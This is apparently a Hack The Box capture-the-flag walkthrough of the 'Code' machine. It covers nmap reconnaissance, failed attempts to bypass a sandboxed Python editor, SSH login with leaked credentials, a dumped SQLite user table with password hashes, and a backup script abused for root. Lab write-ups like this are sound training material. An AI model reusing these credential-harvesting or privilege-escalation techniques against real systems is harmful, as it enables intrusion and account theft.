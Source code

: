 ```yaml
---
title: "Code"
date: 2025-03-29
slug: "code"
tags: ["machines", "code", "walkthrough"]
cover: "/images/code/Pasted image 20250329144142.png"
summary: "Walkthrough of the Code Machines machine covering recon, exploitation, and privilege escalation."
---
```

https://app.hackthebox.com/machines/Code

## Reconnaissance

```shell
nmap 10.10.11.62
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 08:33 EDT
Nmap scan report for 10.10.11.62
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 1.95 seconds
```

```shell
nmap -p- 10.10.11.62
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 08:33 EDT
Nmap scan report for 10.10.11.62
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 589.84 seconds

```

```shell
nmap -sV -sC -p 22,5000 10.10.11.62                                                                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 08:38 EDT
Nmap scan report for 10.10.11.62
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.43 seconds
```

## Enumeration

When navigating to http://ip:5000, a page opened which seems like rendering python code

![code-1](/images/code/Pasted image 20250329144142.png)

Tried to run several reverse shell codes but obtained restricted keywords error

I will try to save a reverse shell without running it, the application only saves the file, and then offers you the option to go back to the editor and run the code... which gets us restricted again

![code-2](/images/code/Pasted image 20250329150551.png)


Instead of a reverse shell I will try and add a user...

Still didn't work in addition to not being able to view a file or view who I am. Looks like this code does not allow local commands

Try to open a web server on another port ... didn't work

Tried running a python code that runs a bash script, defined inside the code

Will try obfuscating the code


Then read more about gunicorn 20.04 vulnerabilities so I will try HTTP Request smuggling

## Exploitation

![code-3](/images/code/Pasted image 20250329172800.png)

didn't work

Found path other than this in a writeup:

![code-4](/images/code/Pasted image 20250329175227.png)

the credentials are:

`development:development`
`martin:nafeelswordsmaster`

Now go to SSH

### SSH

```shell
martin@code:~$ ls -la
total 40
drwxr-x--- 7 martin martin 4096 Mar 29 15:55 .
drwxr-xr-x 4 root   root   4096 Aug 27  2024 ..
drwxr-xr-x 2 martin martin 4096 Mar 29 15:55 backups
lrwxrwxrwx 1 root   root      9 Aug 27  2024 .bash_history -> /dev/null
-rw-r--r-- 1 martin martin  220 Aug 27  2024 .bash_logout
-rw-r--r-- 1 martin martin 3771 Aug 27  2024 .bashrc
drwx------ 2 martin martin 4096 Mar 29 15:55 .cache
drwx------ 2 martin martin 4096 Mar 29 14:50 .gnupg
drwxrwxr-x 2 martin martin 4096 Mar 29 15:35 .local
-rw-r--r-- 1 martin martin  807 Aug 27  2024 .profile
lrwxrwxrwx 1 root   root      9 Aug 27  2024 .python_history -> /dev/null
lrwxrwxrwx 1 root   root      9 Aug 27  2024 .sqlite_history -> /dev/null
drwx------ 2 martin martin 4096 Sep 16  2024 .ssh
martin@code:~$ cd backups/
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  task.json
martin@code:~/backups$ bunzip2 code_home_app-production_app_2024_August.tar.bz2 
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar  tar  task.json
martin@code:~/backups$ cd tar
-bash: cd: tar: Not a directory
martin@code:~/backups$ cat tar
#!/bin/bash
id > /tmp/whoami.txt
bash
martin@code:~/backups$ ls -la
total 68
drwxr-xr-x 2 martin martin  4096 Mar 29 15:55 .
drwxr-x--- 7 martin martin  4096 Mar 29 15:55 ..
-rw-r--r-- 1 martin martin 51200 Mar 29 15:55 code_home_app-production_app_2024_August.tar
-rwxrwxr-x 1 martin martin    38 Mar 29 15:55 tar
-rw-r--r-- 1 martin martin   181 Mar 29 15:55 task.json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
martin@code:~/backups$ 
martin@code:~/backups$ tar -xf code_home_app-production_app_2024_August.tar
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar  home  tar  task.json
martin@code:~/backups$ cd home
martin@code:~/backups/home$ ls
app-production
martin@code:~/backups/home$ cd app-production/
martin@code:~/backups/home/app-production$ ls
app
martin@code:~/backups/home/app-production$ cd app/
martin@code:~/backups/home/app-production/app$ ls
app.py  instance  static  templates
martin@code:~/backups/home/app-production/app$ 

```

```shell
martin@code:~/backups/home/app-production/app/instance$ ls
database.db
martin@code:~/backups/home/app-production/app/instance$ cat database.db 
�O"�O�P�tablecodecodeCREATE TABLE code (
        id INTEGER NOT NULL, 
        user_id INTEGER NOT NULL, 
        code TEXT NOT NULL, 
        name VARCHAR(100) NOT NULL, 
        PRIMARY KEY (id), 
        FOREIGN KEY(user_id) REFERENCES user (id)
)�*�7tableuseruserCREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(80) NOT NULL, 
        password VARCHAR(80) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username)
���QQR*Mmartin3de6f30c4a09c27fc71932bfc68474be/#Mdevelopment759b74ce43947f5f4c91aeddc3e5bad3
�����
���&$n# Cprint("Functionality test")Test
```

run linpeas

Then we found a script backy.sh:

```shell
martin@code:/usr/bin$ cat backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

so we need to modify task.json

```shell
root@code:~# ls
root.txt  scripts
root@code:~# cat root.txt 
856e7ddab1785ced27a4a754b8392c7c

```
